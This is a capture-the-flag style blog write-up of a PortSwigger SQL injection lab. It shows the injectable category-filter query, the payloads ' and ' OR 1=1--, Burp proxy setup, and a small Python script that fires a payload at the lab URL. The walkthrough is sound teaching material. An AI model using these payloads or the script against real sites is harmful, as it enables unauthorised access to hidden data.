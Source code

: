 ```yaml
---
layout: post
title: "SQLi vulnerability in WHERE clause allowing retrieval of hidden data"
date: 2023-05-27
categories:
  - CTF
  - PortSwigger
tags:
  - SQLi
---
```


## Description

This [lab](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data){:target="_blank"} contains an SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

To solve the lab, perform a SQL injection attack that causes the application to display details of all products in any category, both released and unreleased.

## Steps

Upon accessing the lab and filtering on the `Pets` category, I noticed a GET parameter named `category` in the URL. 

To test the application's behavior, I initially tried adding a single quote `'` by navigating to `https://0abe00670490492181da436400ec000b.web-security-academy.net/filter?category='`.

This resulted in an `Internal Server Error`, which confirms that the application is indeed vulnerable.

<img src="https://jawad.ca/images/sqli-lab01/sqli-lab1-1.png">

By adding a single quote `'` to the `category` parameter, the application executes the following query against the database:

```sql
SELECT * FROM products WHERE category = ''' AND released = 1
```

## Preparing a SQL injection payload:

Let's try replacing `'` with `'--`. The key thing here is that the double-dash sequence `--` is a comment indicator in SQL, and means that the rest of the query is interpreted as a comment. This effectively removes the remainder of the query, so it no longer includes `AND released = 1`. 

Expected Query: 
```sql
SELECT * FROM products WHERE category = ''-- AND released = 1
```

URL: 
`https://0abe00670490492181da436400ec000b.web-security-academy.net/filter?category='--`

As we can observe, the error disappeared, and the page returned no products. Perfect!

<img src="https://jawad.ca/images/sqli-lab01/sqli-lab1-2.png">

Next, let's try `' OR 1=1`, which will return the result of the following query:

```sql
SELECT * FROM products WHERE category = '' OR 1=1 -- AND released = 1
```

The modified query will return all items where either the category is empty `''` or `1=1`. Since `1=1` is always true, the query will return all items.

This solves Lab #1! Congratulations.

<img src="https://jawad.ca/images/sqli-lab01/sqli-lab1-3.png" >

However, we won't stop here. Let's go the extra mile and automate the SQLi payload. To begin, download Burp Suite Community Edition and ensure that the Proxy listener is enabled.

<img src="https://jawad.ca/images/sqli-lab01/sqli-lab1-6.png">

Download the FoxyProxy extension and add the Burp Suite proxy address and port.

<img src="https://jawad.ca/images/sqli-lab01/sqli-lab1-5.png">

<img src="https://jawad.ca/images/sqli-lab01/sqli-lab1-7.png">

Enable the Burp proxy and navigate to the interface where Burp is running (`127.0.0.1:8080`). Save the CA certificate when prompted.

<img src="https://jawad.ca/images/sqli-lab01/sqli-lab1-10.png">

To prevent Firefox SSL errors when using Burp, import the certificate we just downloaded by going to `about:preferences#privacy` in Firefox.

<img src="https://jawad.ca/images/sqli-lab01/sqli-lab1-11.png">

We are now ready to intercept our HTTP(s) traffic through Burp. As shown below, the intercept is on, and we can observe the GET `/filter?category=param` request.

<img src="https://jawad.ca/images/sqli-lab01/sqli-lab1-8.png">

To automate this SQL injection payload, we can use the below Python script:

```python
import requests  
import sys  
import urllib3  
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)  
  
proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}  
  
if __name__ == "__main__":  
	try:  
		url = sys.argv[1].strip()  
		payload = sys.argv[2].strip()  
	except IndexError:  
		print('Usage: %s <url> <payload> ; e.g www.example.com "1=1"' % sys.argv[0])  
		sys.exit(-1)  
  
uri = '/filter?category='  
r = requests.get(url + uri + payload, verify=False, proxies=proxies)  
  
# Congratulations message will show up only after solving the lab manually.  
if "Congratulations" in r.text:  
	print("it worked.")  
else:  
	print("Didn't work.")
```

To test our script with the Lab's temporary URL and the payload we initially tested (`' OR 1=1--`), you can use the following command:

```powershell
python3 sqli-lab01.py https://0a9d00e603476b2480e1766400eb00da.web-security-academy.net "' or 1=1--"
```

et voilà! [Little bobby tables](https://xkcd.com/327/){:target="_blank"} would be very happy :-) 

<img src="https://jawad.ca/images/sqli-lab01/exploits_of_a_mom.png">
